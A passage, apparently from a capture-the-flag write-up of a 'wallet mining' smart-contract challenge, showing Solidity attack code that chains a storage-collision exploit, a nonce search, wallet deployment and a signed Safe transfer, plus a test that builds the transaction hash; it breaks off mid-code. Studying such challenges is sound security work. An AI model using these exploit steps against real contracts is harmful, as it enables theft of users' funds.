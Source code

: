 5. Transfer Token to Ward:

```solidity
function transferTokenToWard() internal {
    uint256 balance = token.balanceOf(address(this));
    require(balance > 0, "No tokens to transfer");
    require(token.transfer(ward, balance), "Failed to transfer token to ward");
}
```

The main attack function orchestrates these steps:

```solidity
function attack(bytes memory userSignature) external {
    exploitStorageCollision();
    uint256 correctNonce = findCorrectNonceOffline();
    deployWallet(correctNonce);
    transferFunds(userSignature);
    transferTokenToWard();
}
```

In the test script, the attack is set up and executed as follows:

```solidity
function test_walletMining() public checkSolvedByPlayer {
    WalletMiningAttack attacker = new WalletMiningAttack(
        walletDeployer,
        proxyFactory,
        address(singletonCopy),
        IERC20(address(token)),
        user,
        USER_DEPOSIT_ADDRESS,
        DEPOSIT_TOKEN_AMOUNT,
        ward
    );

    // Prepare the user's signature
    bytes memory transferData = abi.encodeWithSelector(IERC20.transfer.selector, user, DEPOSIT_TOKEN_AMOUNT);

    bytes32 txHash = keccak256(
        abi.encodePacked(
            bytes1(0x19),
            bytes1(0x01),
            keccak256(abi.encode(
                keccak256("EIP712Domain(uint256 chainId,address verifyingContract)"),
                block.chainid,
                USER_DEPOSIT_ADDRESS
            )),
            keccak256(abi.encode(
                keccak256("SafeTx(address to,uint256 value,bytes data,uint8 operation,uint256 safeTxGas,uint256 baseGas,uint256 gasPrice,address gasToken,address refundReceiver,uint256 nonce)"),
                address(token),
                0,
                keccak256(transferData),
                Enum.Operation.Call,
                0,
                0,
                0,
                address(0),
                address(0),
                0 // nonce is 0 for a newly deployed Safe
            ))
        )
    );

```